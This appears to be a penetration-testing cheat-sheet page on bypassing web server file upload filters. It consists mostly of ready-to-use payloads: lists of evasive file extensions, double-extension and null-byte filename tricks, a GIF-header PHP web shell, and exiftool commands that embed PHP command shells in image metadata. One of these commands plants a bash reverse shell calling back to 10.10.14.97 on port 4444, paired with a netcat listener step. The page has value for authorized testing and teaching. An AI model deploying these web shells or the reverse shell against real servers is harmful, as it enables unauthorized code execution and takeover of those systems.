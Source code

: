 ```yaml
---
description: Use these methods to attempt to bypass file upload restrictions in web servers
---
```


# File Upload

## FTP Open?

* Attempt to connect anonymously
* Can you write to a file via remote file upload?
* This could lead to a webshell upload

## Blacklist Bypass

Blacklisting is a type of protection where certain strings of data are prohibited from being accepted. In this case, file extensions, will be denied from being accepted to the web server.&#x20;

* These are very easy to bypass
* You can do this by a variety of methods

### Examples

Here are some alternatives to popular extensions that can be used to get around blacklist filters:

```
php.txt, .sh, .pht, .phtml, .phP, .Php, .php7, .php%00.jpeg, .cgi
```

Another extension for web shells are JSP -- this file is a server-generated web page. It is similar to a .ASP or .php file, but it contains Java code instead of Active X or PHP.

```
.MF, .jspx, .jspf, .jsw, .jsv, .xml, .war, .jsp, .aspx
```

## Whitelist Bypass

The other method for bypass is using whitelists. The whitelist is composed of things that the server will ONLY accept.&#x20;

* This may sound like it is more secure, however, there are still ways to get around this

### Examples

<mark style="color:yellow;">False extension bypass</mark>

By using a reverse shell, with a photo extension, an attacker can fool a web app into accepting a php file that also has a JPG/PNG extension:

```
reverse-shell.php.jpg
```

<mark style="color:yellow;">Null character bypass</mark>

We can bypass whitelist filters to make characters get ignored when the file is saved. This will inject a forbidden extension and an allowed extension in which can lead to a bypass:

```
payload.php%00.jpg OR payload.php\x00.jpg
```

<mark style="color:yellow;">GIF bypass</mark>

```
GIF89a; <?php system($_GET['cmd']); ?>
```

## Exif Data Bypass

This method will utilize metadata in an image (using the exiftool), such as the location, name, camera being used, and much more.

* You can modify malicious data to your payload or image using <mark style="color:yellow;">exiftool</mark>

By inserting a short command shell as information into your photo, it could appear something like this:&#x20;

{% code overflow="wrap" %}
```
exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" pwtoken.jpeg
```
{% endcode %}

* You can then use exiftool to check for the new data in the photo (i.e. exiftool pwtoken.jpeg)

```
$ exiftool pwtoken.jpeg
```

Then, add a shell extension to make it an executable file once in the web app server:

```
$ mv catphoto.jpg catphoto.php\x00.jpghe
```

### PHP one liner to code execution

{% code overflow="wrap" %}
```
exiftool -DocumentName="<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.10.14.97/4444 0>&1'\"); ?>" index.php.jpeg
```
{% endcode %}

* Start a netcat listener
* Upload the file to the server





